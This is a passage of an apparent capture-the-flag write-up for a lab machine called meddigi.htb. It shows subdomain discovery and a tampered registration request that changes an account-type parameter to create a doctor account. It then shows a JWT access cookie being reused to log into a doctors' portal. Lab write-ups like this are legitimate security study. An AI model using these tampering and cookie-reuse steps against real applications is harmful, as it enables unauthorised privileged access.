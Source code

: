 Using this command I found a subdomain called "portal"


Add the meddigi domain to the /etc/host file
```
10.10.11.238 meddigi.htb portal.meddigi.htb

```

# Foothold

This machine has two log-in sites, meddigi.htb/login and portal.meddigi.htb/login  the second one Is ony exclusive for doctors.

The first thing that I did was register myself on meddigi.htb and intercept the petition with burpsuit. I change a value that seems like a IDOR vulnerability from 1 to 2 and I created an doctor account

```
Name=doctor&LastName=doctor&Email=doctor%40doctor.com&Password=doctor1234&ConfirmPassword=doctor1234&DateOfBirth=1950-12-12&PhoneNumber=1234567891&Country=angola&Acctype=2&__RequestVerificationToken=CfDJ8DkoRHGZGuZLr7GTEMxTTkcpQpr0u7-XGlXtSc7DSVg3Z8AYuv7nuWwx-wOz_UGXEmhsbR7vqlpzGb_t8M0PgnGlJJmqkQ-umwmf1KmoP9bGHB2bkxRCGLIhlBTydphcyX9Q6yn-JATGGGVzp_h_ffE
```
The infrastructure of this app is on Microsoft ASP.NET, and is working with some JWT cookie
When I was logged in as a doctor I found a JWT cookie , called "access token". 

```
access_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6IjIxIiwiZW1haWwiOiJwcnVlYmFAcHJ1ZWJhLmNvbSIsIm5iZiI6MTY5ODUyNDA4MSwiZXhwIjoxNjk4NTI3NjgxLCJpYXQiOjE2OTg1MjQwODEsImlzcyI6Ik1lZERpZ2kiLCJhdWQiOiJNZWREaWdpVXNlciJ9.
```

I decoded it on  https://jwt.io/
```
{
"alg": "HS256",

"typ": "JWT"
}

{
"unique_name": "21",
"email": "prueba@prueba.com",
"nbf": 1698524081, 
"exp": 1698527681, 
"iat": 1698524081,
"iss": "MedDigi",
"aud": "MedDigiUser"
}
```

This token grants me the access to the  portal.meddigi.htb/login. How? 

I copy the "access_token" cookie from the meddigi.htb and y paste it on the portal.meddigi.htb
